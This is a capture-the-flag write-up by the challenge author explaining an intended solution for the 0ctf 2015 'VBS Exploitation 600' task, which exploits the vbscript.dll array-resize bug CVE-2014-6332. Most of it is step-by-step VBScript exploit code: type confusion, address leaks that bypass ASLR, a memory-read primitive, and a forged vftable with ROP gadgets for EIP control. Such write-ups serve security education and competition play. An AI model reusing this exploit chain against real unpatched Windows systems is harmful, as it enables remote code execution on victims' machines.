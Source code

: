 ## 0ctf2015 VBS Exploitation 600

### Overview

This is a problem made by Promised\_lu and I will give a brief analysis here.
Only team 217 solved it, and because of our mistakes, they finished it in a way
which is not intended.

Actually you got a vbscript shell and Function CreateObject and GetObject are
hooked. The binary itself does not have bugs, and the bug is in vbscript.dll,
which is a famous one CVE-2014-6332. It is known because it can be used in all
version windows and IE to achieve a remote control. The safemode rewritten
trick is also known as DVE.

Acutally we do not wish your guys go into the Godmode, so we do the hooks. But
the function name, CreateObject string is on the heap which can be corrupted
easily. So team 217 used this way and finally went into Godmode again :) I will
share the way which is not relied on DVE, but just take advantage of vbscript
objects.

A basic knowledge of this vbarray bug is required before continuing.

### Exploitation

#### First Part: Trigger the re-sizeing bug

```text
dim a0
dim a1
dim a2
a0 = 5
redim aa(a0)
redim ab(a0)
a3 = 27
a0 = a0 + a3
a1 = a0 + 2
a2 = a0 + &h8000000
redim Preserve aa(a0)
redim ab(a0)
On Error Resume Next:redim Preserve aa(a2)
ab(0) = 1.123456789012345678901234567890
aa(a0) = 10
type1 = VarType(aa(a1))
Print type1
```

if type1 equals to 0x2f66, that means array ab is just next to array aa. We can
use array ab to change the type of aa(a1), to cause a type confusion. That the
main idea of the exploitation next.

#### Second Part: Leak RegExp object address and also vftable address to bypass ASLR

```text
Set regex = New RegExp
ab(0) = 0
Set aa(a1) = regex
ab(0) = 6.36598737437801E-314
regex_addr = aa(a1)
Print "RegExp Obj address: 0x" & hex(regex_addr)

ab(0) = 0
aa(a1) = regex_addr + 4
ab(0) = 1.69759663316747E-313
regex_vftable = lenb(aa(a1))
Print "vftable address: 0x" & hex(regex_vftable)
vbscript_base = regex_vftable - &h17740
Print "vbscript base: 0x" & hex(vbscript_base)
```

type confusion from object to int, and then type confusion from int to String,
use lenb to leak the fisrt item of the RegExp object, which is its vftable.

#### Third Part: Leak shellcode address, create Read32 to do read-what-where and leak kernel32\_base also the VirtualProtect address.

```text
sc = Unescape("%ucccc%ucccc")
ab(0) = 0
aa(a1) = sc
ab(0) = 6.36598737437801E-314
sc_addr = aa(a1)
Print "Shellcode addr: 0x" & hex(sc_addr)

Function D(dword) : hexi = hex(dword) : While len(hexi) < 8 : hexi = "0" & hexi : Wend : D = "%u" & Mid(hexi, 5, 4) & "%u" & Mid(hexi, 1, 4) : End Function

Function Read32(addr) : ab(0) = 0 : aa(a1) = addr + 4 : ab(0) = 1.69759663316747E-313 : Read32 = lenb(aa(a1)) : End Function

kernel32_base = Read32(vbscript_base + &h631ac) - &h2460c 
Print "Kernel32: 0x" & hex(kernel32_base) 
va_addr = Read32(kernel32_base + &h806fc)
Print "Va: 0x" & hex(va_addr)
```

shellcode part: type confusion from String to int, and then for Read32 just use
type confusion from int to String, and use the lenb() trick.

#### Fourth Part: Read out the content of the RegExp object, and make a new one, everything keeps the same, but try to use our faked vftable instead. :)

```text
RegExp_Obj = ""
For i = 0 To 17 : RegExp_Obj = RegExp_Obj & D(Read32(regex_addr + i * 4)) : Next
Print RegExp_Obj

Old_Vftable = ""
For i = 0 To 16 : Old_Vftable = Old_Vftable & D(Read32(regex_vftable + i * 4)) : Next

pivot_p2_ret = kernel32_base + &h205e2
pop7_ret = vbscript_base + &h32f99

new_f = ""
new_f = new_f & D(pivot_p2_ret)
new_f = new_f & Mid(Old_Vftable, 12 + 1, 12)
new_f = new_f & D(pop7_ret)
new_f = new_f & Mid(Old_Vftable, 12 * 3 + 1, 7 * (8 + 4))
new_f = new_f & D(va_addr)
new_f = new_f & D(sc_addr)
new_f = new_f & D(sc_addr)
new_f = new_f & D(&h1000)
new_f = new_f & D(&h1000)
new_f = new_f & D(&h40)

new_f = Unescape(new_f)
ab(0) = 0
aa(a1) = new_f
ab(0) = 6.36598737437801E-314
new_f_addr = aa(a1)
Print "New Vftable: 0x" & hex(new_f_addr)

new_obj = ""
new_obj = new_obj & D(new_f_addr)
new_obj = new_obj & Mid(RegExp_Obj, 13, 18 * 12 - 12)
new_obj = Unescape(new_obj)
ab(0) = 0
aa(a1) = new_obj
ab(0) = 6.36598737437801E-314
new_obj_addr = aa(a1)
Print "New Obj: 0x" & hex(new_obj_addr)
ab(0) = 1.9097962123134E-313
```

Notice finally there is a type confusion from String to Object to make the
vbscript.dll convinced that our faked String(RegExp) is an Object.

At last,

```text
Print aa(a1).Pattern
```

This will call the method of RegExp, get\_pattern, and then eip controlled. ;-)

Actually you can do full ROP, open C:\flag.txt, read the content and then print
out without shellcode.

### Conclusion

Must say that 217 solution is better and do not need much time. I just show the
intended way haha. Thanks to promised\_lu for this problem, thanks to all the
teams and players taking part in this year 0ctf. See you next year. XD

memeda@0ops
